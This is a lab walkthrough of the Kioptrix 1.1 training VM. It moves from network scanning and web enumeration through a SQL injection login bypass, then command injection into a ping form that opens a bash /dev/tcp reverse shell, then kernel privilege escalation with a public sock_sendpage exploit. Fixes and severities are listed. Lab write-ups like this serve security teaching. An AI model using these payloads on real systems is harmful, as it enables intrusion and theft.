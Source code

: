 ```yaml
---
layout: post
title: "Kioptrix 1.1 (Level 2) Walkthrough"
date: 2019-08-30
---
```


Although the principal is the same, Kioptrix level 2 provides a different set of challenges from level one.
Whereas level one had vulnerable mod_ssl version and kernel exploit, level 2 (1.1) is vulnerable to SQL Injection, command execution and different kernel exploit.

# **Vulnerable System** : Kioptrix 1.1 (Level 2)

**Operating System** : CentOS 4.5

**Kernel** : 2.6.9

**Vulnerability Exploited** : SQL Injection

**Exploit Used** : N/A

**Proof of Concept Code** : Admin' #

**Vulnerability Explained** :  The Remote System Administration Login was vulnerable to SQL injection, which granted access to Remote System Administration Web Console.

**Vulnerability fix** : When making a login page that connects to MySQL database, either use dynamic queries or make sure that user&#39;s input is validated.

**Severity: Low**

----------------------------------------------------------------------------------------------------------------------------------------

**Vulnerability Exploited** : Command Execution

**Exploit Used** : N/A

**Proof of Concept Code** : 192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

**Vulnerability Explained** :  The Remote System Administration Web Console page was vulnerable to command execution, which resulted in gaining low privilege shell.

**Vulnerability fix** : User input should be validated and only IP address should be allowed to be entered.

**Severity** : **Medium**

----------------------------------------------------------------------------------------------------------------------------------------

**Privilege Escalation Vulnerability** : Linux Kernel 'sock_sendpage()' NULL Pointer Dereference

**Exploit Used** : Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - &#39;sock\_sendpage()&#39; Local Privilege Escalation

**Proof of Concept Code** : [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

**Privilege Escalation Vulnerability Explained:** Linux kernel vulnerability allows to gain administrative privileges with specifically crafted executable.

**Vulnerability fix** : Update Linux kernel to the newest version possible. Patches available from the vendor, for more information [https://access.redhat.com/security/cve/cve-2009-2692](https://access.redhat.com/security/cve/cve-2009-2692).

**Severity** : **High**

----------------------------------------------------------------------------------------------------------------------------------------

## Methodology

    * Host Discovery (arpscan)

    * Port Scanning (nmap)

    * Web Port Enumeration (nikto, gobuster, browser)

    * Discovered MySQL Injection Vulnerability (browser)

    * Discovered Command Execution Vulnerability (browser)

    * Low Privilege Shell Gained (netcat)

    * Privilege Escalation Enumeration (uname, cat /etc/\*-release)

    * Discovered Appropriate Exploit 'sock\_sendpage()' Local Privilege Escalation 
      (searchsploit/exploit-db)

    * Compiled the Exploit and Gained Administrative Privileges

----------------------------------------------------------------------------------------------------------------------------------------

## Arp-scan

Discovering the vulnerable system with arp-scan -l:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/arp-scan.png?raw=true)

## Nmap

Nmap all ports scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_allportsd.png?raw=true)

\*Note: Nmap -p- flag scans all TCP ports from 1 to 65535.

Nmap version, default script and aggressive scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv.png?raw=true)
 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv1.png?raw=true)

-p specifies the ports to scan

-sV flag attempts to determine service and version information for given ports

-sC flag utilizes a default set of nmap scripts



## Port 80 Enumeration

### Nikto

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nikto.png?raw=true)

### Gobuster

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/gobuster.png?raw=true)

  *Note: Gobuster discovers hidden web directories. New versions of gobuster come with 3 different modes: dns, dir and vhost. In this case dir is used. -u flag is used to specify the url and -w flag is used to specify the wordlist to be used.

### Browser

The browser presents us with a login page:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/browser.png?raw=true)


## Low Privilege Exploitation

#### SQL Injection

The login page is vulnerable to SQL injection:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/sql_injection.png?raw=true)

#### Command Execution

Once logged it, there seems to be a ping command running from the web interface:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution.png?raw=true)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution1.png?raw=true)

With the correct syntax it's possible to append another command to the ping command to execute the reverse shell as shown below:

192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution3.png?raw=true)

## Privilege Escalation Enumeration

Obtaining low privilege shell and determining the system&#39;s operating system and kernel:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/low%20privilege.png?raw=true)

python -c "import pty;pty.spawn('/bin/bash')" command upgrades the "dumb" web shell to fully interactive tty shell. With out this, commands such as su – will not work.

The operating system is CentOS release 4.5 and the kernel version is 2.6.9

### Vulnerability Identification

#### Searchsploit:

Searching exploit-db for suitable exploit:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit.png?raw=true)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit2.png?raw=true)

## Privilege Escalation Exploitation

Downloading the exploit to the victim machine.

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/downloading.png?raw=true)

Compiling the exploit, executing the exploit and gaining root privileges:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/compiling.png?raw=true)
